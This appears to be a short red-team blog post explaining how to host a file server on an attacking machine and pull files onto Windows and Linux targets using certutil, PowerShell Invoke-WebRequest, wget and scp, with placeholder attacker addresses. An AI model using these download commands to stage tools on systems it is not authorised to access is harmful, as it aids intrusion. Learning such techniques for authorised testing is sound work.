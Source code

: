 ```yaml
---
title: "File Transfer"
collection: posts
type: "Info"
permalink: /posts/2023-spring-teaching-1
venue: "Red Teaming"
date: 2023-02-13
location: "City, Country"
---
```


## Description :
File transfer between Linux and Windows.

---

Before talking about how to transfer a file, let's start by how you can host a server on your attacking machine.

## Using Python


```bash
python3 -m  http.server  PORT_NUMBER
```
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```
--- 

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```